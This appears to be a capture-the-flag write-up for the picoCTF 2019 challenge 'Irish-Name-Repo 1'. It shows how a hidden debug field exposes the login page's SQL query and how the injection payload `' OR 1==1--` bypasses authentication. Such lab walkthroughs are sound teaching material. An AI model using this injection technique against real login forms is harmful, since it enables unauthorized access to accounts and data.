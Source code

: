 ## Problem Statement


### Lab 4: Irish-Name-Repo 1 (300 pts)

**Problem:**

>There is a website running at https://2019shell1.picoctf.com/problem/47253/ or http://2019shell1.picoctf.com:47253. Do you think you can log us in? Try to see if you can login!

**Hints:**

1. There doesn't seem to be many ways to interact with this, I wonder if the users are kept in a database?
2. Try to think about how does the website verify your login?

## Write-Up


Upon inspecting the login page, we can find a suspicious tag buried in the source:
```html
<input type="hidden" name="debug" value="0">
```
Setting the value to `1` and entering some username and password shows:
```
username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'
Login failed.
```

Notice the SQL query. Setting the username to a single quote (`'`) and logging in results in:
```
username: '
password: 
SQL query: SELECT * FROM users WHERE name=''' AND password=''
```

Reviewing the network activity shows a return code of `500: Internal Server Error`. This indicates the absence of proper SQL filtering. A simple SQL injection of `' OR 1==1--` brings us into the mainframe :).
